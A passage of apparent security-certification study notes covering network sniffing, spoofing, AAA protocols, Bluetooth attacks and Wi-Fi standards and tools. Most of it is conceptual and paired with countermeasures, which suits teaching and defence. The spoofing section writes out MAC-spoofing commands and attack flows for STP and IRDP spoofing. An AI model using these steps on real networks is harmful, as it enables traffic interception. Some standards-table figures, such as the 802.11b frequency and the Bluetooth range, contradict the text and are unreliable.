- Forms a trusted relationship with the adjacent router
- Usually these attacks go undetected
- **Remote attacks**: caused by misconfigurations

### OSPF: Open Shortest Path First

- Most popular routing protocol for IP networks
- Dynamically discovers neighbors like RIPv2 and BPG (Border Gateway Protocol)
- Used by e.g. internet service providers (ISP) and cloud providers for hybrid communication

### Compromised router attacks

- Placing a rogue router in target network e.g. remote branch/headquarters
- Allows attacker to inject routes to redirect traffic for MITM attacks or DoS attacks.
- Attacker learns about that entire routing domain such network types, links etc

### OSPF attacks countermeasures

- 📝 Configure OSPF to authenticate every OSPF message
  - Routers must pass the authentication process before becoming OSPF neighbors.
- Monitor OSPF neighbors for eavesdropping through e.g. a SIEM
# Sniffing overview

- Capturing data packets on a network using a program or a device.

## Networking concepts

### Network adapter

- Can enable Wi-Fi (wireless, WLAN) and Ethernet (wired, LAN) connection.
- Can be a **NIC** (Network interface card)
  - Physical card that connects to an expansion slot in a computer
- Modern systems has usually an integrated network adapter (e.g. on motherboard).
- As default it discards messages that's not destined to it
  - See [promiscuous mode](#promiscuous-mode) for the opposite behavior.

#### Promiscuous mode

- Allows sniffing the packets after connecting to an access point
- 📝 Network interface controller pass all traffic it receives, rather than only destined ones.
- Works on both wired and wireless connections
- See also • [libpcap | Sniffing tools](./sniffing-tools.md#libpcap) • [Turning on promiscuous mode | Wireshark](./sniffing-tools.md#turning-on-promiscuous-mode)

#### Monitor mode

- Allows sniffing the packets in the air without connecting (associating) with any access point.
- ❗ Wireless connection only

## Sniffing types

### Passive sniffing

- Does not require any packets to be sent
- Monitors and captures incoming packets
- Used in networks which use hubs i.e. shared ethernets
  - A **hub** forwards every frame to all ports but the sources filters

### Active sniffing

- Require a packet to have a source and destination addresses in order to be sent to its destination
- Used in networks which use switches i.e. switched ethernets
  - A **switch** maps MAC addresses into ports, based on source addresses
  - A switch operates at data link layer (2) to forward data to MAC addresses
    - Some switches can run on network layer (3) with additional routing functionality.
      - Also known as layer-3 switches, or multilayer switches.
- E.g.
  - [Port mirroring](#port-mirroring) where each packet is also sent to a port that attacker listens to
  - Lawful interception where electronic surveillance on a target is authorized by a judicial or administrative order.

#### Port mirroring

- Used on a network switch
- Sends copy of network packets seen on one switch port (or an entire VLAN) to another port
- Often used in [Intrusion Detection System](./../11-firewalls-ids-and-honeypots/intrusion-detection-system-(ids)-overview.md)s.
- Also known as **span port**
  - In Cisco system, it's commonly referred as Switched Port Analyzer (SPAN)
- See also [STP attack](./spoofing-attacks.md#stp-spoofing-attack) for an exploitation

## Sniffer

- Packet sniffing programs
- Designed to capture packets that contain information such as passwords, router configuration, traffic.
- 📝 Works at data link layer (2) of the OSI model where MAC addresses work
  - It may then translate frames to higher level packets.
- Allows attackers to access the network traffic from a single point.
- Turns the network adapter into [promiscuous mode](#promiscuous-mode) or [monitor mode](#monitor-mode)

## Wiretapping

- Also known as **telephone tapping** or **wire tapping**
- Monitoring of telephone and Internet-based conversations by a third party.
- Legal wiretapping by a government agency is also called **lawful interception (LI)**
- **Active wiretapping**: Alters communication by e.g. interjecting something.
- **Passive wiretapping**: Only monitors or records the traffic.
- 🤗 NSA wiretaps Internet going through using out-of-band signaling with their tool called [PRISM](https://www.zdnet.com/article/prism-heres-how-the-nsa-wiretapped-the-internet/)
- **Out-of-band vs In-band signaling**
  - **In-Band signaling**: Method where signalling is sent over the voice/data circuit.
  - **Out-of-band signaling**: Data transmission through different channels (or frequencies) than normal ones.

## Sniffing countermeasures

- Restrict the physical access to the network media
- 📝 Encryption is, by far, the best option.
  - E.g. • [SSH](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell) instead of Telnet • [Secure Copy (SCP)](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell) instead of FTP • [SSL](./../15-cryptography/encrypting-communication.md#ssl-secure-sockets-layer) for email connection • HTTPS instead of HTTP • [SFTP](./../15-cryptography/encrypting-communication.md#securing-ftp) instead of FTP • [WPA2](./../09-wireless-networks/wireless-networks-overview.md#wpa2) or [WPA3](./../09-wireless-networks/wireless-networks-overview.md#wpa3) for wireless traffic
  - See also [encrypting communication](./../15-cryptography/encrypting-communication.md)
- 📝 Use [Access Control Lists (ACLs)](./../11-firewalls-ids-and-honeypots/firewall-overview.md#access-control-lists-acls) on router/firewall to only allow authorized devices/IP ranges.
- Permanently add the MAC address of the gateway to the ARP cache.
- Use static IP addresses and static ARP tables
- Use switch instead of hub as switch delivers data only to the intended recipient.
- Use • [PGP](./../15-cryptography/encrypting-communication.md#pgp-pretty-good-privacy) and S/MIPE • VPN • [IPSec](./../15-cryptography/tunneling-protocols.md#ipsec) • [SSL/TLS](./../15-cryptography/encrypting-communication.md#ssltls) • [Secure Shell (SSH)](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell) • [One-time passwords (OTP)](./../01-introduction/identity-access-management-(iam).md#one-time-password-otp).
- Retrieve MAC directly from NIC instead of OS to prevent MAC address spoofing.
- Use tools to determine if any NICs are running in the promiscuous mode.
# Sniffing tools

- Also known as • **sniffer** • **packet analyzer** • **protocol analyzer** • **network analyzer**
- 💡 Not only used for hacking but also for troubleshooting by e.g. system administrators

## Cain and Abel

- Also known as **Cain & Abel** or **Cain**
- 📝 Recovery of various kind of passwords by sniffing the network
- 📝 Can also do
  - ARP poisoning
  - sniffing
  - recording VoIP conversations
  - password cracking with e.g. dictionary attacks, brute-force etc.
- See also • [Cain and Abel | Wireless threats and attacks](./../09-wireless-networks/wireless-threats-and-attacks.md#cain-and-abel) • [Cain and Abel | Web server threats and attacks](./../12-web-servers/web-server-threats-and-attacks.md#cain-and-abel) • [ARP poisoning attack steps |  ARP poisoning](arp-poisoning.md#arp-poisoning-attack-steps)

## libpcap

- 📝 Layer 2 Packet capture library for Linux/macOS
  - See [Turning on promiscuous mode](#turning-on-promiscuous-mode) for Windows alternatives
- 📝 Used by most sniffers including • [Wireshark](#wireshark) • [Snort](./../11-firewalls-ids-and-honeypots/intrusion-detection-system-(ids)-overview.md#snort) • [tcpdump](#tcpdump) • [TCPflow](#tcpflow) • [Cain and Abel](#cain-and-abel) • [Kismet](#kismet) • [Nmap](./../03-scanning-networks/scanning-tools.md#nmap)
- Maintained and developed by [tcpdump](#tcpdump)

## TCPflow

- [Open-source](https://github.com/simsong/tcpflow) TCP/IP packet demultiplexer.
- Stores data in a way that makes it convenient for debugging and analysis
- Like [tcpdump](#tcpdump) however, separate files for each direction are created, making things easier to read.
- Uses `libpcap`

## tcpdump

- 📝 Command-line tool to show all TCP traffic from all interfaces live.
- Built-in for all Unix systems, has a Windows clone called [WinDump](https://www.winpcap.org/windump/)
- Developed and maintains [**`libpcap`**](#libpcap)
- See [`man page | tcpdump.org`](https://www.tcpdump.org/manpages/tcpdump.1.html)

## Wireshark

- 📝 Also known as **Ethereal** (old name)
- 📝 Captures and visualize traffic.
- 📝 **[tshark](https://www.wireshark.org/docs/wsug_html_chunked/AppToolstshark.html)**: Terminal-based Wireshark like [tcpdump](#tcpdump)
- Can be started from Window managers or [command line](https://www.wireshark.org/docs/wsug_html_chunked/ChCustCommandLine.html)

### Turning on promiscuous mode

- Allows capturing all traffic, see [Promiscuous mode | Sniffing](./sniffing-overview.md#promiscuous-mode)
- On Linux/macOS it's done through [`libpcap`](#libpcap)
- 📝 On Windows a driver is required:
  - `npcap`: Driver from Nmap developers
  - `WinPcap`: Discontinued driver
  - [AirPcap](https://support.riverbed.com/content/support/software/steelcentral-npm/airpcap.html): Obsolete, propriety USB dongle used when there was no open-source Windows driver

### Wireshark non-root installation

- Running wireshark as root is not safest
  - You're receiving traffic from an unknown location
  - If anything goes wrong, people can gain root access
- Install wireshark by e.g. `apt-get install wireshark-gtk` (varies by OS)
- `usermod -a -G wireshark <user-name>` to install it as non-root user
  - Adds wireshark to user account.
  
### 📝 Wireshark UI


1. **Title Bar**
   - Shows the name of the interface you're capturing until you save your capture
   - Then it shows the name of the capture dump
2. **Packet List Pane**
   - You can add/remove/reorder columns
   - Selecting a packet will show more details in the Packet Details Pane and Packet Bytes Pane
3. **Intelligent Scrollbar**
   - Mini-map of packets
   - Depends on the height of the list and your physical display's specifications.
4. **Packet Details Pane**
   - Displays protocol fields
   - **Generated Fields**
     - Enclosed in brackets ([ ])
     - Contains info such as TCP analysis, response time, checksum validation, and IP geolocation.
   - **Links**
     - Wireshark will generate a link if it detects relationships between packets.
     - Formatted blue with an underline.
     - Double-clicking on the link will jump you to the related packet.
5. **Packet Bytes Pane**
   - Hexdump style with each line displaying the data offset
     - 16 hexadecimal bytes, and 16 ASCII bytes
6. **The Statusbar**
   - Informational messages

### Wireshark filtering

- ❗ [Capture filters](#capture-filters) (like `tcp port 80`) are not to be confused with [display filters](#display-filters) (like `tcp.port == 80`)

#### Display filters

- Control which packets are displayed
- Uses search and match operators such as `contains` and `matches`
  - E.g. `http contains hello`: TCP packets containing string "hello"
- Uses search comparisons
  - Such as
    - Equal: `eq` | `==`
    - Not equal: `ne` | `!=`
    - Greater than: `gt` | `>`
    - Less than: `lt` | `<`
    - Greater than or equal to: `ge` | `>=`
    - Less than or equal to: `le` | `<=`
  - 📝 E.g.
    - `tcp.port eq 21 or ssh`: show only FTP (port 21) or SSH traffic.
    - `ip.addr == 192.168.1.1`: examine all traffic from and to `192.168.1.1`s

#### Capture filters

- Also known as **PCAP filters**
- Same syntax as tcpdump or any other application using `libpcap`
- Much more limited than [display filters](#display-filters)
- Reduce the size of a raw packet capture, set before capturing
- E.g.
  - Only from traffic to / from specific host: `host 172.18.5.4`
  - Only from a range of IP addresses: `src net 192.168.0.0/24`

## Kismet

- [Kismet](https://www.kismetwireless.net/) is an [open-source](https://github.com/kismetwireless/kismet) wireless network and device detector, passive network sniffer, wardriving tool, and [WIDS (Wireless Intrusion Detection system)](./../09-wireless-networks/wireless-security-tools.md#wireless-intrusion-detection-systems-wids) framework.
- Can export in a compatible format for
  - cracking with [aircrack-ng](./../09-wireless-networks/wireless-threats-and-attacks.md#aircrack-ng) for deep packet analysis with a tool like Wireshark / tshark.
- Kismet can discover wireless networks that are not sending beacon frames.
  - Even if the security admin turns beaconing off (so no one can supposedly search for the SSIDs)

### Kismet vs Wireshark

- Both looks at the contents of the packets and decodes them but presents them differently
  - Wireshark is packet oriented: digs into specifics of each packet
  - Kismet is device oriented: more device details, association with client.
- Both are passive-monitoring tools i.e. works without sending any loggable packets.
- Kismet is Wi-Fi only while Wireshark can also sniff on wired networks.

### Mobile tools

- [Wi.cap. Network Sniffer Pro](https://play.google.com/store/apps/details?id=com.evbadroid.wicap&hl=en&gl=US) for Android
- [FaceNiff](http://faceniff.ponury.net/) for Android (rooted only)
- [PacketCapture](https://play.google.com/store/apps/details?id=app.greyshirts.sslcapture) for android
# Spoofing attacks

- Entails changing a computer's identity
- Allow the bypassing of access control lists on servers or routers
- Allows hiding a device on network by impersonating another network device / system.

## IP address spoofing

- Used most commonly in DDoS attacks.
- Helps with overcoming authentication based on IP addresses
  - Usually in corporate networks where trust between devices exists
  - E.g. accessing intranet without any password.
- ❗ The response is sent to the spoofed IP address instead of the spoofer.

### IP address spoofing countermeasures

- Packet filtering by a gateway
  - Ingress: block packets from outside of the network having an IP address within the network.
  - Egress: block outgoing packets from inside with a source address that is not inside
- 💡 Design network protocols and services so that they do not rely on the source IP address for authentication.
- Sequence number
  - Used by upper layer TCP
  - Negotiated to ensure that arriving packets are part of an established connection.
  - 📝 Must be guessed in order to hijack the connection

## MAC spoofing

- Response is received to spoofing party as opposed to IP address spoofing
- See also [MAC | MAC flooding | Sniffing attacks](./sniffing-attacks-overview.md#mac)

### MAC spoofing use-cases

- New hardware for existing Internet Service Providers (ISP) where ISP charges per device.
- Fulfilling software requirements where one software can only be installed on a single device.
- Identity masking for pushing responsibility for other users.
- **MAC address randomization**: Implemented in Android, Linux, iOS, and Windows to prevent third parties from using the MAC address to track devices

### MAC spoofing attack

- Flow
  1. Attacker sniffs the network for MAC addresses of legitimate users
  2. Spoofs one of those addresses
  3. The attacker receives the traffic intended for that user
- Effective against MAC filtering
- E.g. using `ifconfig`
  1. `ifconfig` to get name of network interface e.g. `eth0`
  2. `ifconfig eth0 down` to deactivate it to be able to change it (will lose connection)
  3. `ifconfig eth0 hw ether 88:88:88:88:88:88` to change the MAC address
  4. `ifconfig eth0 up` to change the MAC address
- E.g. using [macchanger](https://github.com/alobbs/macchanger)
  - `-r` to get a random MAC address e.g. `macchanger -r eth0`
  - `-m` set specify MAC address manually to pretend to be someone else

## STP spoofing

- STP: Spanning tree protocol
  - Layer 2 link management protocol
  - Provides path redundancy while preventing loops in the network
- Allows intercepting traffic when attacker emulates a device with a (lower) root switch identifier

### STP spoofing attack
  
- Also known as ***STP manipulation attack***, ***STP attack*** or ***STP root role attack***.
- Flow
  1. Attacker introduces a rogue switch
  2. Switch advertises superior BPDUs to force a STP recalculation
     - BPDU = Bridge Protocol Data Units (BPDUs)
       - Frames that contain information about STP that's between exchanged switches
  3. Rouge router becomes elected as root switch
     - All the traffic will cross this switch giving the attacker possibility to sniff all traffic in the company
  - 
- Allows for
  - **DoS attacks**
    - Recalculation of STP have interruption on the system as the root bridge changes
    - Just sending BPDU messages would be enough as becoming root is not needed.
  - **MITM attacks**
    - Also known as dual-homing (dual-homed)
    - Attacker uses two interfaces, one to win the root other to send data to the attacker.
    - 📝 Attacker can configure one of the switch ports as a [SPAN port](./sniffing-overview.md#port-mirroring) to receive copy of the traffic.
- Mitigations
  - Enable **Root Guard** to not forward traffic to port with superior BPDUs
  - Enable **BPDU Guard** to enforce the STP domain borders

## IRDP spoofing

- **IRDP**: ICMP Router Discovery Protocol
  - Protocol for computer hosts to discover routers on their IPv4 local area network.
  - ICMP router discovery messages are called "Router Advertisements" or "Router Solicitations"
- Vulnerable as it does not have any validation
- Attacker needs to be in the same network as the victim.
- Attacker adds bad route entries into a victim's routing table redirecting victim traffic to malicious address.
- Allows
  - Passive sniffing through rerouting victim machine to attacker machine
  - Man-in-the-middle where attacker acts as proxy
  - DoS by flooding wrong entries
- **Countermeasures**
  - Disable IRDP
  - Use digital signatures
  - Block all type 9 and type 10 ICMP packets.
# AAA protocols

- AAA stands for (Authentication, Authorization, Accounting)
- Family of protocols that mediate network access.
- Sometimes these protocols are used in combination with
  - [Point-to-Point Protocol (PPP)](./../15-cryptography/tunneling-protocols.md#ppp-point-to-point-protocol)
  - [Extensible Authentication Protocol (EAP)](#extensible-authentication-protocol-eap)
  - Protected Extensible Authentication Protocol (PEAP)
  - [Lightweight Directory Access Protocol (LDAP)](./../04-enumeration/enumeration-overview.md#ldap)
- Most commonly used protocol is [RADIUS](#radius) and then [Diameter](#diameter), meanwhile older systems use [TACACS](#tacacs) and [TACACS+](#tacacs-tacacs-plus)

## RADIUS

- Stands for **R**emote **A**uthentication **D**ial **I**n **U**ser **S**ervice
- 📝 Commonly used by ISPs (Internet Service Providers) and corporations for access control
- Primarily used to manage access to the internet or other networks
  - Networks can employ a variety of networking technologies, including analog modems, DSL, wireless local area networks (WLANs), and VPNs.
- Based on UDP (User Datagram Protocol)
- Flexible and extensible offering a variety of ways to authenticate the user
- Requires setting-up a RADIUS back-end server.
  - Usually integrated with AD (active directory)

### Extensible Authentication Protocol (EAP)

- Authentication framework used by [Enterprise WPA operation mode](./wireless-networks-overview.md#enterprise).
- Strong when used with TLS (EAP-TLS)
  - Higher security when client-side certificates are hosted in smart cards.
- Extends and replaces [Point-to-Point Protocol (PPP)](./../15-cryptography/tunneling-protocols.md#ppp-point-to-point-protocol).

#### EAP Transport Layer Security (EAP-TLS)

- Secure standard using TLS protocol
- Requires mutual authentication
  - Where the client-side certificate can be stored in e.g. smart cards.

## Diameter

- Successor to RADIUS
- Not directly backwards compatible
- Security is provided by [IPsec](./../15-cryptography/tunneling-protocols.md#ipsec) or [TLS](./../15-cryptography/encrypting-communication.md#tls-transport-layer-security) and privacy protocols.

## TACACS

- Terminal Access Controller Access-Control System
- Remote authentication protocol
- Commonly used in networks of UNIX systems

## TACACS+ (TACACS plus)

- Terminal Access Controller Access-Control System Plus
- Provides access control for routers, network access servers, and other
networked computing devices via one or more centralized servers.
- Based on TACACS but an entirely new protocol (incompatible with TACACS)
- Runs on older systems but generally replaced by [RADIUS](#radius)
# Bluetooth

- Range is typically less than 10m
- Operates on the 2.4 GHz
- Discovery feature can control the visibility of the device
- **Bluetooth Low Energy (BLE)**: Bluetooth >= 4.0
- **Bluetooth Classic (BC)**: Bluetooth < 4.0
- Uses WPAN (wireless personal area network)
- Utilize the Gaussian Frequency Shift Keying (FSK) to exchange information in the basic rate (BR) of usually 1 mbps.

## Bluetooth security

- Standard provides three basic security services:
  - **Authentication**
    - To verify the identity of communicating devices
  - **Confidentiality**
    - To prevent the compromise of information and ensure that only
    authorized devices can access and view data.
  - **Authorization**
    - To allow the control of resources by ensuring that a device is
    authorized to use a service before permitting it to do so.
- ❗ Standard does not address address other security services such as audit and non-repudiation.
- Four security modes (levels):
  1. **Mode 1**: No authentication/encryption.
  2. **Mode 2**: Authorization with access control policies.
  3. **Mode 3**: Mandate authentication and encryption using secret key with paired devices
  4. **Mode 4**: Secure Simple Pairing using [Elliptic-Curve Diffie-Hellman (ECDH)](./../15-cryptography/encryption-algorithms.md#elliptic-curve-diffiehellman) for key exchange and link key generation

## Bluetooth device discovery

- [BlueScanner](https://sourceforge.net/projects/bluescanner/): Finds devices around and displays information
- [BT Browser](http://www.bluejackingtools.com/java/bt-browser-20/): Find and enumerate nearby devices

## Bluetooth attacks

### BlueSmacking

- 📝 DoS attack using echo.

### BlueJacking

- 📝 Sending unsolicited data to bluetooth devices
- Allows spamming for bluetooth also known as **BlueSpamming**
- ❗ Not related to hijacking

### BluePrinting

- 📝 Extracting information about the device

### BlueSnarfing

- 📝 Stealing data from target device
- E.g. calendars, contact lists, emails and text messages

### BlackJacking

- 📝 Exploits a blackberry device to attack corporate LAN directly
- Compromises blackberry then proxies between corporate servers and attacker.

#### BBProxy

- 📝 Bluejacking tool
- Included in [BlackBerry Attack Toolkit](https://sourceforge.net/projects/bbat/)
- Announced by [DefCon](https://www.defcon.org/images/defcon-14/dc-14-presentations/DC-14-X30n.pdf)

### BlueBugging

- Also known as **bluebug-attack**
- Create a [backdoor attack](./../07-malware/malware-overview.md#backdoor) before returning control of the phone to its owner
- Extends [BlueJacking](#bluejacking) and [BlueSnarfing](#bluesnarfing) (allows attacker to access data)
- E.g. by pretending to be a headset to receive phone calls
- Not so common as vulnerabilities are generally patched

#### Bloover

- A proof-of-concept [tool](https://trifinite.org/trifinite_stuff_blooover.html)
- 📝 Exploits bluebugging targeting J2ME (Java micro edition) enabled phones such as Nokia
- [Bloover II](https://trifinite.org/trifinite_stuff_bloooverii.html): Exploits bluebug and also helomoto, bluesnarf and OBEX object push attacks

## Bluetooth attacks countermeasures

- Check paired devices
- Turn off visibility / turn off Bluetooth if not used
- Use strong PIN
- Use encryption
- Use the strongest security mode available
- Don't accept unknown requests
- Use [bluetooth security tools](#bluetooth-security-tools)

## Bluetooth security tools

- [Bluetooth firewall](http://www.fruitmobile.com/bt_firewall.html)
  - Mobile app for logging and monitoring Bluetooth connections
  - Radar feature allows you to scan nearby bluetooth devices
  - Scan feature lists apps that can perform bluetooth actions
- [Bluediving](https://github.com/balle/bluediving)
  - Bluetooth penetration suite
  - Exploits BlueBug, BlueSnarf, BlueSnarf++ and BlueSmack
- [Bluelog](https://github.com/MS3FGX/Bluelog)
  - Linux Bluetooth scanner
- [btscanner](https://packages.debian.org/unstable/btscanner)
  - Debian tool to extract information from a Bluetooth device without the requirement to pair.
- [BlueRanger](https://tools.kali.org/wireless-attacks/blueranger)
  - Simple Bash script which uses Link Quality to locate Bluetooth device radios
# Wireless networks overview

- Wireless network = Wi-Fi
- Type of Wireless Local Area Network (WLAN)
- Standardized by [IEEE 802.11](#wireless-standards)
- Allows devices in range of an access point to access the network.

## Wireless terms

- **Access Point**
  - Access Point (AP) or Wireless Access Point (WAP)
  - Hardware device that allows wireless connectivity to the end devices.
- **SSID (Service Set Identifier)**
  - Unique name for a wireless Access Point
  - Inserted into the header of every data packet.
- **BSSID (Basic Service Set Identifier)**
  - MAC address of an access point
- **GSM**
  - Global System for Mobile Communication
- **Bandwidth**
  - Amount of information that may be broadcasted over a connection
- **Hotspot**
  - Places where wireless network is available for public use
- **Orthogonal Frequency Division Multiplexing**
  - Encoding method of digital data on multiple carrier frequencies
- **Frequency-hopping spread spectrum (FHSS)**
  - Method of transmitting radio signals rapidly switching a carrier among many frequency channels
- **Phase Shift Keying (PSK)**
  - Modulation technique where phase of carrier signal changed by varying the sine and cosine inputs.
  - Widely used for WLANs, biometric and contactless operations, along with RFID and Bluetooth communications.

## Antenna patterns

- 
- 📝 Directional antenna patterns
  - **Directional antenna**
    - Also known as ***unidirectional antenna***
    - Broadcasts and obtains radio waves from a single direction (can be e.g. 30 - 60 degrees)
    - E.g. **Yagi** (also known as ***Yagi–Uda antenna***)
    - Most concentrated, higher range
    - **Parabolic grid antenna**
      - Based on the idea of a satellite dish
      - Can be attacked from farther away as it picks up Wi-Fi signal from 16 km and more
  - **Bi-directional antenna**
  - **Omni-directional antenna**
    - Broadcasts in 360 degrees
    - Most common type of antenna used in wireless communications and networks, especially WiFi
    - Used also in wireless base stations
    - Least concentrated and lower range
    - 
    - **Dipole**: Used for closer proximity e.g. mobile phones, client connections instead of site-to-site

## Wireless encryption

### Wireless encryption comparisons

#### WEP

- Wired Equivalent Privacy
- 1997, to provide data confidentiality
- Stream cipher RC4 for confidentiality
- CRC-32 checksum for integrity
- Authentication using WEP-Open and WEP-Shared (using a shared key) modes
- ❗ Weak as it reuses small IVs which allows decoding of its shared key.

#### WPA

- Wi-Fi Protected Access
- 2003, replace WEPs weak encryption
- Uses **Temporal Key Integrity Protocol (TKIP)**
  - Major improvement over WEP
  - Dynamically changes key as system is used
  - Combined with larger IV, this defeats well known attacks
  - Uses RC4 encryption
- Authentication using WPA-PSK and WPA-Enterprise modes
  - WPA-PSK uses pre-shared (symmetric) key to encrypt the wireless data
- Improved payload integrity vs. WEP
  - Uses more secure message integrity check (MIC) known as Michael
  - Includes a frame counter to prevent replay attacks
- Still subject to attack

#### WPA2

- Also known as ***Wi-Fi Protected Access 2*** or ***802.11i***
- 2004, replace WPAs weak cipher
- Authentication WPA2-Personal and WPA2-Enterprise modes
- Uses **Advanced Encryption Standard algorithm (AES)**
  - Much harder to decrypt than WPA or WEP
- 📝 Replaces TKIP with **CCMP** (AES-CCMP)
  - Also known as ***Counter Mode Cipher Block Chaining Message Authentication Code Protocol (Counter Mode CBC-MAC Protocol)*** or ***CCM mode Protocol (CCMP)***
  - Uses AES as encryption algorithm instead of RC4 in WPA.

#### WPA3

- Wi-Fi Protected Access 3
- 2018, introduce Dragonfly handshake, protects against dictionary attacks
- Authentication using WPA3-Personal and WPA3-Enterprise

#### Wireless cryptographic differences

| | WEP | WPA | WPA2 | WPA3 |
|-|-----|-----|------|------|
| Encryption | RC4 | RC4 + TKIP | AES-CCMP | AES-CCMP & AES-GCMP |
| IV Size (Bits) | 24 | 48 | 48 | 48 |
| Key Length (Bits) | 40/140 | 128 | 128 | 128/256 |
| Integrity Check | CRC-32 | Michael/CRC-32 | CBC-MAC, CCMP | BIP-GMAC-256 |

#### WPA2 and WPA3 Operation Modes

##### Personal

- Intended for home use, easier setup

##### Enterprise

- More complex setup, more granular control
- Uses [RADIUS authentication](./aaa-protocols.md#radius) with [Extensible Authentication Protocol (EAP)](./aaa-protocols.md#extensible-authentication-protocol-eap) extensions for more security

##### WPA2 vs WPA3 operation modes

| | Personal | Enterprise |
|-|----------|------------|
| WPA2 | Also called **WPA-PSK** (pre-shared key) as it uses PSK to protect network access | Same encryption |
| WPA3 | Also called **WPA3-SAE** (Simultaneous Authentication of Equals). Uses 128-bit key and [Forward Secrecy](./../15-cryptography/cryptography-overview.md#forward-secrecy) against dictionary attacks. | Uses 192-bit key |

## Wireless standards

- **802.15.1 - Bluetooth**
  - Read more on [bluetooth](./bluetooth.md)
- **802.15.4 - Zigbee**
  - Low-power, low-data-rate, and close-proximity wireless ad hoc networks.
  - Popular IoT connection protocol
- **802.16 - WiMAX**
  - Wireless on "steroids"
  - Written for global development of broadband wireless metropolitan area networks.
  - Big range and fast.
- **Comparing wireless standards**

- **802.11 Specifications**

  | Standard | Distance | Speed |
  | -------- | ----- | ----- |
  | WiFi | Medium (20-250 m) | Started slow (2 Mbit/s) but fast now (1300 Mbit/s)  |
  | ZigBee | Smallest (1-100 m) | Slow (up to 0.25 Mbit/s) |
  | WiMax | Biggest (1.6 - 9.6 km) | Fast (up to 1 Gbit/s) |

- 📝 Summary of the standards

  | Standard | Year | Summary |
  | -------- | ---- | ------- |
  | **802.11** (WLAN/**Wi-Fi**) | 1997 | • 2.4 GHz • DSS, FHSS • Up to 2 Mbit/s • 20 - 100 meters |
  | **802.11a** (Wi-Fi 2) | 1999 | • 5 - 3.7 GHz • OFDM • Up to 54 Mbit/s • 35 - 100 meters |
  | **802.11b** | 1999 | • 5.4 GHz • DSSS • Up to 11 Mbit/s • 35 - 140 meters |
  | **802.11c** | 2001 | Bridge operation procedures; included in the IEEE 802.1D standard |
  | **802.11d** | 2001 | International (country-to-country) roaming extensions |
  | **802.11e** | 2005 | Enhancements: QoS, including packet bursting |
  | **802.11f** | 2003 | Inter-Access Point Protocol, Withdrawn February 2006 |
  | **802.11g** (Wi-Fi 3) | 2003 | • 2.4 GHz • OFDM • Up to 54 Mbit/s • 38 - 140 meters |
  | **802.11i** | 2004 | Defines WPA/WPA2 encryption standards |
  | **802.11n** (Wi-Fi 4) | 2009 | • 2.4 - 5 GHz • MIMO-OFDM • Up to 600 Mbit/s • 70 - 250 meters |
  | **802.11ac** (Wi-Fi 5) | 2012 | • 5 GHz • MU-MIMO, • Up to 1300 Mbit/s • 70 - 250 meters |
  | **802.11ax** (Wi-Fi 6) | 2019 | • 1 - 6 GHz • MU-MIMO, OFDMA • Up to 11 Gbit/s • 70 - 250 meters |
  | **802.15.1** (WPAN/**Bluetooth**) | 2002 | • 2.4 GHz • GFSK, π/4-DPSK, 8DPSK • Up to 50 Mbit/s • 70 - 250 meters |
  | **802.15.4** (Low rate WPAN/**ZigBee**) | 2003 | • 0.868, 0.915, 2.4 GHz • O-QPSK, GFSK, BPSK • Up to 0.25 Mbit/s • 70 - 250 meters |
  | **802.16** (**WiMAX**) | 2005 | • 2-11 GHz • SOFDMA • Up to 1 Gbit/s • 1.6 - 9.6 kilometers |

- See also [all 802.11 standards and amendments](https://en.wikipedia.org/wiki/IEEE_802.11#Standards_and_amendments)

## Wi-Fi authentication

### Wireless authentication modes

#### Open system authentication process (OSA)

- Uses WPA protocol.
- Complete free for all, no auth at all
- 

#### Shared key authentication process (SKA)

- Uses WEP protocol + a shared secret key
- 

### IEEE 802.1x

- 📝 Authentication mechanism for both wireless and physical access to a network
- Authenticate devices to decide to give e.g. corporate or guest access
- Switches uses back-end authentication server, see [AAA](./aaa-protocols.md)
- Can authenticate based on MAC address or other requirements (certificate, VLAN etc.)
- Per default all hosts on a wired connection (LAN) can see each other
# Wireless security tools

## Wireless Intrusion Prevention Systems (WIPS)

- Also known as **Wireless IPS**
- Network device
- 📝 Intrusion detection by monitoring the radio spectrum for the presence of unauthorized access points (e.g. evil twins)
- Intrusion prevention by taking steps to mitigate the threat (e.g. deattaching it).
- E.g. • [Cisco Adaptive Wireless IPS](https://www.cisco.com/c/en/us/products/wireless/adaptive-wireless-ips-software/index.html) • [WatchGuard WIPS](https://www.watchguard.com/wgrd-products/access-points/wips)

### Wireless Intrusion Detection Systems (WIDS)

- Also known as **Wireless IDS**
- Monitors radio spectrum used by wireless LANs and alerts whenever a rogue access point is detected.
- Alerts a systems administrator whenever a rogue access point is detected

## Wi-Fi security auditing tools

- [AirMagnet® WiFi Analyzer PRO](https://www.netally.com/products/airmagnet-wifi-analyzer/)
  - Real-time analysis of 802.11a/b/g/n/ac wireless networks
- [RFProtect Wireless Intrusion Protection](https://www.arubanetworks.com/products/security/wireless-intrusion-protection/)
  - Prevents denial-of-service and man-in-the-middle attacks and mitigates over-the-air security threats.
- [FruityWiFi](http://www.fruitywifi.com)
  - Open source tool to audit wireless networks
  - Allows the user to deploy advanced attacks by directly using the web interface or by sending messages to it.
- [Fern Wifi Cracker](https://github.com/savio-code/fern-wifi-cracker)
  - Security auditing and attack software program
  - Can run attacks such as cracking WEP/WPA/WPS keys
- [OSWA-Assistant](http://securitystartshere.org/page-software-oswa-assistant.htm)
  - Organizational System Wirelss Auditor

## Wi-Fi predictive planning tools

- Allows to plan and design Wi-Fi 6 networks
- E.g.
  - [AirMagnet® Planner](https://www.netally.com/products/airmagnet-planner/)
    - Plan networks, estimate budgets, optimize, plan mitigation strategies
  - [Cisco Prime Infrastructure](https://www.cisco.com/c/en/us/products/cloud-systems-management/prime-infrastructure/index.html)
    - Solution for provisioning, monitoring, optimizing, and troubleshooting both wired and wireless devices
  - [Ekahau Pro](https://www.ekahau.com/products/ekahau-connect/pro/)
    - Tool for designing, analyzing, optimizing, and troubleshooting Wi-Fi networks.
  - [TamoGraph Site Survey](https://www.tamos.com/products/wifi-site-survey/)
    - Wireless site survey software tool for collecting, visualizing, and analyzing 802.11 a/b/g/n/ac/ax Wi-Fi data.
  - [NetSpot](https://www.netspotapp.com/)
    - Wi-Fi analysis, and troubleshooting on Mac OS X and Windows.
    - Visualize, manage, troubleshoot, audit, plan, and deploy your wireless networks.

## Wi-Fi vulnerability scanning tools

- [Zenmap](https://Nmap.org/zenmap/)
  - Official Nmap GUI.
- [Nessus](https://www.tenable.com/products/nessus)
  - Read more on [vulnerability analysis](./../05-vulnerabilities/vulnerability-analysis.md#nessus)
